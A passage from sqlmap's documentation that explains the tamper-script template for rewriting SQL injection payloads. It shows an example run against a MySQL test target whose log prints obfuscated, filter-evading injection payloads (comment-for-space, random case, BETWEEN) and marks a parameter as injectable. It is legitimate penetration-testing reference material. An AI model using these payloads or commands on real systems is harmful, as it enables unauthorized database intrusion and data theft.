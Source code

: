 The format of a valid tamper script is as follows:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ {.python}
# Needed imports
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload):
    '''
    Description of your tamper script
    '''

    retVal = payload

    # your code to tamper the original payload

    # return the tampered payload
    return retVal
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 

You can check valid and usable tamper scripts in the `tamper/` directory.

Example against a MySQL target assuming that `>` character, spaces and capital `SELECT` string are banned:

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --\
tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3

[hh:mm:03] [DEBUG] cleaning up configuration parameters
[hh:mm:03] [INFO] loading tamper script 'between'
[hh:mm:03] [INFO] loading tamper script 'randomcase'
[hh:mm:03] [INFO] loading tamper script 'space2comment'
[...]
[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
[...]
[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause
'
[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONC
AT(cHar(58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/
**/elsE/**/0/**/ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/info
rmation_schema.tables/**/group/**/bY/**/x)a)
[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or
 HAVING clause' injectable 
[...]
```

## Detection

